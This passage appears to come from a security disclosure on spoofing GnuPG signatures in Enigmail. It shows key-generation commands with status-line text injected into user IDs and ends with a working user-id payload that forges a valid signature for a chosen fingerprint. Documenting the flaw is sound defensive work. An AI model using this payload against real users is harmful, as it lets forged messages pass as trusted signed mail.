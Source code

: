 ```
$ gpg --status-fd 2 --quick-gen-key "GOODSIG DB1187B9DD5F693B Patrick Brunschwig <patrick@enigmail.net>"
...
[GNUPG:] KEY_CREATED B BF52C30EA443623C6299883FB81CB745B9100FC9
...
$ gpg --status-fd 2 --quick-gen-key "VALIDSIG 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B 2018-05-31 1527721037 0 4 0 1 10 01 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B"
...
[GNUPG:] KEY_CREATED B 552D4E1657548BF8C4B3A5643C2AA6885649565E
...
$ echo 'I am ordering a pizza.' | gpg --sign -u 552D4E1657548BF8C4B3A5643C2AA6885649565E | gpg --status-fd 2
...
[GNUPG:] GOODSIG B81CB745B9100FC9 GOODSIG DB1187B9DD5F693B Patrick Brunschwig <patrick@enigmail.net>
...                               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
[GNUPG:] GOODSIG 3C2AA6885649565E VALIDSIG 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B 2018-05-31 1527721037 0 4 0 1 10 01 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B
...                               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
```

This approach is not quite right, due to the way Enigmail processes the status lines. However, with a bit of extra work, it can be modified to a functional attack.

### Proof of concept

We saw above (in "Method I: Signature status confusion"), that
Enigmail uses the signature state (`GOODSIG`) of the last signature,
but the fingerprint and other information from the very first
`VALIDSIG` in the output.

Luckily, `GOODSIG` with the injected user id comes before the corresponding
`VALIDSIG`. This means that for a successful attack, we only
need to inject a proper `VALIDSIG` line in the first
signature. Injecting `GOODSIG` is entirely superfluous, and we can
rely on the valid, original `GOODSIG` from GnuPG to trigger the search
for `VALIDSIG`.

`VALIDSIG` must be injected in the primary user id of the very first
signature, because otherwise the correct `VALIDSIG` information
emitted by GnuPG for the first signature would be used instead.

Although we said that Enigmail *matches* `VALIDSIG` even in the middle
of a line, it *retrieves* the key details from the beginning of the
line (after stripping away the first 9 characters for `VALIDSIG␣'). So
we have to repeat the required arguments at the beginning of the line.

Here is a complete, stripped-down and working example for a user id
that can be used to spoof a signature in Enigmail:

```
x 1527763815 x x x 1 10 x 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B VALIDSIG x x 0 4F9F89F5505AC1D1A260631CDB1187B9DD5F693B
  ^ creation              ^ 40-character fingerprint                              ^ 40-character fingerprint
                     ^ hash algorithm                                       ^^^^^ matches (\w+) (.*) (\d+)
                   ^ pubkey algorithm
```
